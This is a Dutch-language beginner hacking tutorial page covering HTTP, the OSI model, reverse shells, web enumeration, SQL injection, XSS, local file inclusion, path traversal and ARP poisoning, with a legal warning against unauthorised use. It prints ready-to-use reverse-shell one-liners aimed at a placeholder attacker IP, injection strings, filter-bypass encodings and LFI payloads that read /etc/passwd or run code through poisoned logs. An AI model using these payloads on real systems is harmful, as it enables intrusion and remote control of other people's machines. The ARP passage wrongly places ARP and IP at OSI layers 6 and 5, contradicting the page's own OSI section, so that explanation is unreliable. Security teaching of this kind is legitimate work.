

In het kader van https://www.laatjeniethackmaken.nl heb ik besloten om juist het tegenovergestelde te gaan maken. Gatochhacken.nl. Waarom ga toch hacken? Omdat er veel vragen zijn en mensen wel met security willen beginnen maar eigenlijk erg veel moeite hebben met het vinden van de juiste informatie in een voor hen begrijpelijke taal (Nederlands).
Ik ga je niet leren hacken, dat is iets wat je zelf met veel oefening zal moeten doen. Het enige wat ik kan doen is begrippen uitleggen, de ene keer iets uitgebreider dan de andere, en je doorverwijzen naar bronwebsites waar je vervolginformatie kunt vinden. Het is onmogelijk om al deze informatie in één document te bundelen.
Daarnaast verwacht ik van iemand die wil leren hacken dat er een zekere mate van intrinsieke nieuwsgierigheid aanwezig is en dat je jezelf wilt gaan inlezen. Om te voorkomen dat je afhaakt zal er wel wat text zijn om de linkjes aan elkaar te plakken. Deze pagina is overigens permanent under construction. Spot je een foutje, of heb je een verzoekje voor inhoud, maak dan een issue aan op github.
LET OP alle technieken, code voorbeelden en andere informatie zijn technieken waarmee je kan hacken. Deze toepassen op een systeem waar jij geen toestemming hebt om dit te doen is een strafbaar feit! (artikel 138ab wetboek van strafrecht) Bega geen fout, wil je oefenen en dingen proberen, kijk dan op de website van https://www.certifiedsecure.com
Het is ontzettend belangrijk dat je protocollen leert kennen, immers het kennen van protocollen zorgt voor een grotere flexibiliteit in aanvallen en een grotere onafhankelijkheid van tooling. Mocht je het protocol al kennen, dan kun je zelf eenvoudiger een tool schrijven die je bij een aanval ondersteund.
Het HTTP protocol is een protocol die door veel gebruikers gebruikt wordt om op het internet pagina’s op te vragen. HTTP is een, relatief, eenvoudig plain-text protocol. Binnen HTTP verstuurt een gebruiker een verzoek naar een webserver, dit verzoek ziet er bijvoorbeeld als volgt uit:
GET /index.php HTTP/1.1
User-Agent: Firefox
Host: www.voorbeeld.nl
Accept-Language: en
In het bovengenoemde verzoek is GET de methode waarmee je een pagina opvraagt, daarachter staat de URI die je wilt opvragen en dan het protocol met de versienummer. Het User-Agent gedeelte is de browser die iemand gebruikt en de host het internet adres die een eindgebruiker wil bezoeken. Al deze velden kan jij als eindgebruiker beïnvloeden. Er bestaan overigens nog meer velden, maar daarvoor verwijs ik je graag naar de RFC zoals hierboven vermeld. Als reactie hierop stuurt de server het volgende antwoord:
HTTP/1.1 200 OK
Date: Thu, 3 May 2018 18:43:53 GMT
Server: Apache
Last-Modified: Wed, 2 May 2018 01:44:23 GMT
Content-Length: 73
Content-Type: text/plain
Hallo! Ik bedank je voor verzoek! Hier heb je mijn pagina als antwoord :)
Er zijn meerdere methoden om verzoeken naar webservers te sturen. Veel voorkomende methoden zijn:
POST, bedoeld om gegevens niet in de URL mee te sturen maar in de body van je request. Deze methode zullen goede developers gebruiken om logingegevens te verzenden. De met POST requests meegezonden data komen in de meeste webservers (zoals apache bij standaard instellingen) niet in de logging terug.
HEAD, doet hetzelfde als de hierboven genoemde GET request maar dan met als verschil dat de request body niet meegezonden wordt.
TRACE, met TRACE geeft de webserver de, door jou verzonden request headers weer zodat je kan zien of er tussen jou, en de webserver, nog aanpassingen gedaan zijn. Start wireshark op je ingerichte lab machine en kijk eens wat er gebeurd als je met de request generator gaat spelen.
Alhoewel het OSI(Open Systems Interconnection)-model geen protocol is is het wel iets wat handig is om in je achterhoofd te houden als je iets wilt gaan doen met netwerk hacking. Het OSI-model bestaat uit 7 lagen. Hoe hoger de laag, des te dichter je bij de gebruiker aangekomen bent. Hieronder spits ik het toe op een TCP/IP stack, wil je iets anders hierover lezen dan is google een goede start. De lagen zijn als volgt:
Laag 1: Physical
De fysieke laag zorgt er voor dat de data die jij over een netwerk wilt verzenden ook daadwerkelijk op de kabel komt, en dat de data die mensen over het netwerk verzenden ook daadwerkelijk bij jouw systeem komt. Voorbeelden van deze protocollen zijn DSL, ISDN, CAN bus en WIFI. Als er iets ontvangen is, gaat deze informatie naar laag 2. Dit kun je vergelijken met het posten van de brief, of het uit de brievenbus halen van je brief.
Laag 2: Datalink
De datalink laag bepaald de manier hoe er gecommuniceerd word en met wie. In deze laag zul je ook vaak foutcorrectie vinden. Voorbeelden van protocollen op deze laag zijn ethernet, CHAP en ARP. Dit kan je vergelijken met een adres die op de enveloppe geschreven wordt of of afgelezen wordt.
Laag 3: (inter)Network
In deze laag vind je de IPv4 protocollen en de IPv6 protocollen zowel als IPSec en NAT. In deze laag wordt het mogelijk gemaakt om verschillende netwerken aan elkaar te knopen en routing toe te passen. Een bijkomend voordeel is dat bij het IP protocol hier IP adressen ontstaan die voor mensen normaal te lezen zijn. Dit kan je vergelijken met het opschrijven of aflezen van de postcode.
Laag 4: Transport
In de transport laag wordt end-to-end communicatie mogelijk gemaakt, hier wordt in feite de envelop gemaakt waar de boodschap in gaat. Bij sommige protocollen worden hier ook betrouwbaarheidsmaatregelen genomen, zoals bijvoorbeeld bij TCP. Bij TCP schrijf je ook een antwoordbevestiging op de envelop.
Laag 5: Session
Deze laag beheert de sessies die tussen twee communicerende partijen bestaan, het houd de verbinding open of sluit hem af als hij niet meer noodzakelijk is. Hierbij kan je denken aan SSH, SMB of RDP.
Laag 6: Presentation
De presentatie laag is de plaats waar de informatie een encoding,compressie of encryptie krijgt (of het omgekeerde natuurlijk). Deze laag is niet altijd eenvoudig te duiden, HTTP kan in sommige visies namelijk zowel onder de presentatie als de applicatie laag vallen.
Laag 7: Application
De applicatielaag is de hoogste laag van het OSI model en deze laag ligt erg dicht bij een eindgebruiker en hij zal deze dan meestal ook het vaakst kennen. Binnen deze laag vallen protocollen als DNS, WEBDav, HTTP en FTP. Dit zijn protocollen waarmee computers direct met elkaar kunnen communiceren over de (met de lagere lagen) opgezette telecommunicatie- en computernetwerken.
In laag 1 wordt de informatie uitgedrukt in bits, in laag 2 spreken we over frames. In laag 3 over packets en laag 4 over segments. Alles boven laag 4 is data.
Er zijn diverse ezelsbruggetjes om het OSI-model te onthouden. Één hiervan is All people should try new dairy products
Alhoewel een volledig interactieve shell soms niet nodig is om je doel te bereiken, is het wel een van de krachtigste toegangen die je als hacker kan krijgen. Een reverse shell is wanneer een computer naar jou terug verbind en vervolgens zijn shell of command line aan jou ter beschikking stelt.
Er zijn verschillende manieren om shells te bemachtigen, waaronder standaard met programmeertalen danwel de methodes met kant en klare agents.
Hieronder zal ik er een aantal plaatsen:
exec /bin/bash 0&0 2>&0
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
nc -e /bin/sh ATTACKING-IP 80
perl -e 'use Socket;$i="IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
Msfvenom is de payloadgenerator van het Metasploit Framework. Met deze payloadgenerator kan je eenvoudig code genereren die diverse soorten backdoors, reverse shells of andere toepassingen bieden.
Het is bijna onmogelijk om een onbeperkte lijst te geven van mogelijkheden waarop je binnen websites kan enumereren. Om hier toch een beeld te kunnen geven van welke gegevenssets je allemaal kan verzamelen van websites zullen er toch een niet limitatieve opsomming aan mogelijkheden gegeven worden.
Veel websites willen het zoekmachines graag makkelijker maken om geïndexeerd te worden, of soms juist voorkomen dat een zoekmachine bij sommige pagina’s kan komen. Je kan altijd kijken of er een zogenaamd robots.txt bestand is waarmee een beheerder de toegang tot bepaalde pagina’s wil beperken. Schrik niet als je hier de “geheime” paden naar de beheersinterface aantreft.
Als je juist eenvoudig en met weinig verzoeken gebruikers wil enumereren of andere informatie wil verzamelen waarvan het juist de bedoeling is dat zoekmachines hierbij kunnen, kijk dan eens naar de sitemap. In een sitemap neemt een beheerder juist de pagina’s op waarvan hij graag wil dat je die gaat lezen.
Als je niet weet welke mappen of bestanden er allemaal bestaan kan je bij bekende softwarepakketten de installatiebestanden downloaden en deze installeren. Op deze manier kan je een beeld krijgen welke pagina’s er allemaal in een installatie horen te zitten en kan je er achter komen of er iets als een changelog (publiek) beschikbaar is waarmee je de versie van een applicatie kan achterhalen.
Tegenwoordig bevatten de meeste websites een content managment systeem. Deze content managment systemen maken het makkelijker om websites aan te maken en te beheren. Een beheerder hoeft geen HTML of CSS code meer te typen en kan eenvoudiger nieuwe pagina’s aan maken. Ook kan je vaak de inhoud van je website in eenzelfde omgeving typen als je van moderne tekstverwerkers gewend bent. Als je een website tegen komt waarbij dit het geval is, en je vervolgens ziet dat userprofielen op te vragen zijn met een getal, dan kan je potentieel alle gebruikersnamen verzamelen.
Voorbeeld wordpress: Op Wordpress websites is het, standaard, mogelijk om de inlognamen van auteurs te vergaren. Deze inlognamen worden gebruikt om op het wp-admin panel in te loggen.
http://
Als je het id nummer op 1 zet krijg je de gebruikersnaam van de eerste aangemaakte Wordpress gebruiker. Dit zal vaak de administrator zijn.
Ook login formulieren kunnen een schat aan informatie prijs geven, zoals of een gebruiker bestaat en of je het juiste wachtwoord hebt. In het laatste geval zal je logischerwijs inloggen. Alhoewel het best practice is om aan te geven dat de gebruikersnaan en/of wachtwoord foutief ingevuld zijn geven sommige websites ook nog verschillende gegevens weer.
< input met gebruikersnaam>
Je kan hier bijvoorbeeld zien dat je de gebruikersnaam niet goed hebt omdat de gebruiker niet bestaat.
< input met password>
Je kan hier bijvoorbeeld zien dat je de gebruikersnaam goed hebt, immers er is een dit wachtwoord is incorrect melding verschenen.
< input met user/password foutief>
Aan dit veld kun je geen conclussies meer verbinden.
Eenvoudige injectie
' # --
Indien het een username / password is en de query moet blijven werken:
' OR 1=1 OR 1='
Cross site scripting (XSS) is een techniek waarbij je “slechte” gebruikersinvoer kunt plaatsen op een website. Deze invoer kan je vervolgens gebruiken om mensen te besmetten of om hun cookies / credentials te stelen.
Reflected of non-persistent XSS is een techniek waarbij een fout in de input sanitization het weergeven van kwaadaardige code toe staat. Het belangrijkste om te onthouden is dat in dit geval de aanval niet op de website opgeslagen is, en iemand dus alleen slachtoffer kan worden als hij echt jouw link aan klikt met de aanval.
Het volgende code voorbeeld is kwetsbaar voor XSS
<?PHP
if (isset($_GET['status']))
{
echo $_GET['status'];
}
?>
Als je dit in een php pagina zet, en deze PHP pagina bezoekt met als querystring status=%3Cscript%3Ealert%28%27xss%27%29%3B%3C%2Fscript%3E zie je het volgende:

Stored of persistent XSS is een techniek waarbij een fout in de input sanitization het opslaan van je aanval mogelijk maakt. Dit soort aanvallen maken meer slachtoffers omdat iedereen die de specifieke pagina bezoekt er mee besmet zal worden.
DOM (Document Object Model) XSS is een methode waarbij een aanvaller de kwaadaardige code op zo een manier plaatst dat het nooit via de webserver loopt. Dit kan bijvoorbeeld als javascript gebruik maakt van de URL van een webpagina zonder hierop een juiste input sanitization te doen.
LFI is een aanvalstechniek die volledig Local File Inclusion heet. Het is een kwetsbaarheid waarbij een applicatie gebruikersinvoer niet op een juiste wijze bewerkt. Door deze kwetsbaarheid te misbruiken krijg je de mogelijkheid om bestanden in te laden waar dit (eigenlijk) niet de bedoeling was. Op deze manier kan je potentieel bestanden lezen als /etc/passwd of andere gevoelige bestanden.
File includes zijn redelijk te herkennen aan de parameters achter een pagina naam. Denk hierbij aan een GET parameter als file of page. Vaak zie je hier dan een bestandsnaam staan. In de submappen zijn enkele opdrachten te vinden waarmee je zelf met LFI kunt spelen.
Path Traversal wordt ook wel Directory Traversal genoemd. Eigenlijk is dit niets anders dan in een regulier Linux filesystem navigeren. Als je iets in een andere map wilt zoeken zul je hier naar toe moeten navigeren op een manier zoals je dat op de command line ook doet. Als je test.txt wilt weergeven die een map hoger in de directory structuur staat kan je “cat ../test.txt” gebruiken.
Je kan op deze manier geen sources van PHP bestanden in zien. PHP bestanden worden door de PHP functies include en require ingeladen en geparsed. Hierdoor zal je hetzelfde zien als wat je ziet als je de pagina rechtstreeks bezoekt.
In sommige gevallen gebruiken mensen een WAF of hebben ze zelf scripting geschreven die opgegeven path's op hun inhoud filteren. Lang niet alle implementaties die mensen verzinnen geven een goede filtering.
Om bepaalde filters te omzeilen kan je bijvoorbeeld je path url encoden of tweemaal url encoden. Dit geeft in die volgorde de volgende resultaten:
../
%2e%2e%2f
%252e%252e%252f
Ook kan je je path traversal in unicode opgeven uit de hoop dat een ontvangende applicatie hier niet correct mee om kan gaan. In sommige gevallen filteren scripts op ../ . Je kan dan ook eens een andere slash gebruiken dan die je net gebruikte.
Mochten ze onverhoopt ../ en ..\ er uit filteren zoals in het volgende code voorbeeld:
<?PHP
$path = $_GET['path'];
$path = ereg_replace('\.\./','',$path);
$path = ereg_replace('\.\./','',$path);
echo $path;
?>
Dan kan je bijvoorbeeld de volgende string opgeven:
...\.\
PHP zal in dat geval eerst de ..\ er uit filteren, en dan houd je alsnog een correcte path traversal over.
In sommige gevallen proberen developers een local file inclusion te voorkomen door bijvoorbeeld een extensie op te geven in hun include. Op deze manier kunnen ze voorkomen dat je bijvoorbeeld /etc/passwd uit kan lezen, omdat /etc/passwd.php niet bestaat.
In programmeertalen worden strings meestal beëindigd met een zogenaamde null-byte. Een null-byte is hexadecimaal 0x00 en heeft geen teken om hem weer te geven. Als je zelf een null-byte kan injecten in deze file, dan kan je potentieel voorkomen dat de extensie er achter geplakt wordt.
Als het je niet lukte dan kan dit komen omdat je je URL niet correct ge-encode hebt. Een nullbyte kan je niet zomaar meesturen, maar moet door de webserver wel correct geïnterpreteerd worden. Stuur dus %00 mee in plaats van 0x00 of 0. De nullbyte methode werkt enkel in PHP < 5.3.
In filesystem functies trunct PHP onder linux de paden automatisch naar 4096 tekens. Je kan dit voor elkaar krijgen door voor het path een opstapeling van “./” strings op te nemen totdat je op dit maximum zit.
PHP kent verschillende wrappers. Met PHP Wrappers kan je toegang krijgen tot diverse I/O streams van applicaties en op deze wijze kan je bestanden uitlezen of commando’s op servers uitvoeren. Deze wrappers zijn voornamelijk bedoeld om met functies als readfile, file en filegetcontents te werken.
De php://input wrapper voert altijd de complete inhoud van een POST request uit. Deze inhoud zal uitgevoerd worden zonder dat het door PHP, en de instellingen in php.ini, geparsed zijn. Hierdoor kan je commando’s op de server uitvoeren.
Installeer vervolgens de Firefox Hackbar op je lokale machine. Met de Hackbar kan je vervolgens POST verzoeken sturen naar de webserver en pagina.php met als url:
In sommige gevallen kan je enkel gebruik maken van filters om informatie uit te lezen.
De syntax van filters is als volgt:
php://filter/<type>.<filter>/<parameter>
Wil je een bestand uitlezen en deze base64 gecodeerd weergeven dan kun je het volgende gebruiken.
php://filter/convert.base64-encode/resource=../../../etc/passwd
Je kan zelf bestanden introduceren door middel van bijvoorbeeld upload formulieren. Op foto deel websites kan je een foto uploaden maar geen PHP bestanden. Je kan PHP code opnemen in de meta data van een afbeelding en deze via LFI kwetsbaarheid laten uitvoeren.
Er bestaan systeembestanden die te misbruiken zijn als je de juiste invoer gebruikt. Dit zijn voornamelijk bestanden in de /proc/self mappen van Linux. Dit zijn specifieker:
In een van de filedescriptors van het huidige proces staat de Apache error log weggeschreven. Je kan zelf php code in de logging wegschrijven en deze later weer opvragen. Als je nieuwsgierig bent kan je de logbestanden in /var/log zelf bekijken en zien welke log bestanden je hiervoor zal kunnen misbruiken.
Als je de environ file kan includen dan heb je de beschikking over de environmental variabelen waaronder de applicatie op dat moment draait. Een van de gebruikersgegevens die in deze environmental variabelen terecht komt is de user agent. Doormiddel van handige Firefox plugin zoals uaswitcher kan je zelf je useragent aanpassen en hier bijvoorbeeld PHP code in plaatsen.
Ook op netwerken is het erg belangrijk om een juiste enumeratie te doen. Het weten welke hosts er in het netwerk zijn en welke hosts er allemaal beschikbaar zijn om aan te vallen is één van de belangrijkste gegevens.
Bij het uitvoeren van een red team actie is het van belang dat het red team een zekere opbouw in "detecteerbaarheid" heeft. Immers het is de bedoeling dat het red team op een gegeven moment gedetecteerd wordt door het blue team om op deze wijze ook de incident response te kunnen testen.
Er zijn diverse manieren om hosts op een netwerk te ontdekken, je kan actief scannen maar ook passief ontdekken welke systemen aanwezig zijn. Dit ontdekken zonder zelf activiteit in het netwerk te veroorzaken zal logischerwijs minder opvallen. Je kan met TCPdump een netwerkdump maken en deze in wireshark openen. Kijk naar alle binnenkomende ARP antwoorden en maak een lijstje van alle IP adressen die je voorbij ziet komen. Je kan, afhankelijk van de data die je binnenkrijgt natuurlijk ook andere protocollen dan ARP meenemen in dit lijstje.
Dit kun je ook eenvoudiger maken met de tool netdiscover en de schakeloptie -p.
Een ping sweep is iets wat in gemonitorde omgevingen waarschijnlijk op zal vallen en het zal alleen werken als er geen ICMP filtering is geïmplementeerd. ICMP filtering voorkomt immers dat een host op een PING verzoek kan reageren.
Probeer zelf een programma te schrijven die het ICMP Ping pakket verzend, of gebruik nmap -sP
nmap -p
Een van de manieren om een man in the middle positie te bemachtigen is ARP poisoning. ARP staat voor Address Resolution Protocol. Om de werking van ARP op een goede manier te begrijpen is het noodzakelijk om het OSI model te snappen. Voor het OSI model verwijs ik terug naar het "protocollen" kopje.
Het ARP protocol (laag 6) zorgt ervoor dat de computers binnen een IP subnet (laag 5) van elkaar kunnen weten aan welk MAC adres men een frame moet zenden. Als voorbeeld hebben wij een netwerk met de volgende systemen:
Hostnaam - IP Adres - MAC adres Computer A - 192.168.1.2 - MACADDR1 Computer B - 192.168.1.3 - MACADDR2
Op het moment dat computer A een berichtje wil sturen naar computer B zal computer A zowel het IP adres als het MAC adres van computer B weten. Het IP adres is ingegeven door de gebruiker, met dat IP adres stuurt computer A een ARP verzoek.
Wie heeft IP adres 192.168.1.3? Vertel het 192.168.1.2!
Dit bericht wordt op laag 7 opgevangen door de computers op het subnet. Elke computer gaat in zijn OSI model omhoog vragen of het IP adres bij hem hoort. Laag 7 vraagt aan laag 6, laag 6 aan laag 5 en daar komt computer B erachter dat dit MAC adres van hem is. Computer B stuurt deze bevestiging terug naar laag 6, die weer naar laag 7 en dan wordt er op het netwerk het volgende ARP bericht verzonden:
192.168.1.3 is te vinden op MACADDR2
Op dat moment weet computer A het juiste MAC adres en kan computer A het pakketje versturen.
Bij ARP poisoning komen wij op computer C om de hoek. Hostnaam - IP Adres - MAC adres Computer A - 192.168.1.2 - MACADDR1 Computer B - 192.168.1.3 - MACADDR2 Computer C - 192.168.1.4 - EVILMAC1
Computer A vraagt weer in het netwerk:
Wie heeft IP adres 192.168.1.3? Vertel het 192.168.1.2!
maar het is nu niet computer B die als eerste kan reageren, maar dat zijn wij op computer C. Op het moment dat wij het verzoek van computer A zien sturen wij zo snel (en vaak) mogelijk naar het MAC adres van computer A:
192.168.1.3 is te vinden op EVILMAC1
192.168.1.3 is te vinden op EVILMAC1
192.168.1.3 is te vinden op EVILMAC1
192.168.1.3 is te vinden op EVILMAC1
en als wij eerder zijn dan de reactie van computer B dan wordt het bericht naar ons verzonden, ditzelfde doen wij ook zo snel mogelijk voor het pad van computer B naar computer A. Wij sturen op het netwerk ook zo vaak en snel mogelijk
192.168.1.3 is te vinden op EVILMAC1
192.168.1.3 is te vinden op EVILMAC1
192.168.1.3 is te vinden op EVILMAC1
192.168.1.3 is te vinden op EVILMAC1
naar het MAC adres van computer A. Op onze eigen computer zorgen wij ervoor dat wij de binnengekomen pakketten ook opnieuw verzenden naar de goede computer zodat het netwerk blijft draaien, en je hebt een Man in the Middle positie bemachtigd.
Tooling: Arpspoof, ettercap, bettercap
Github bedankt voor het hosten :)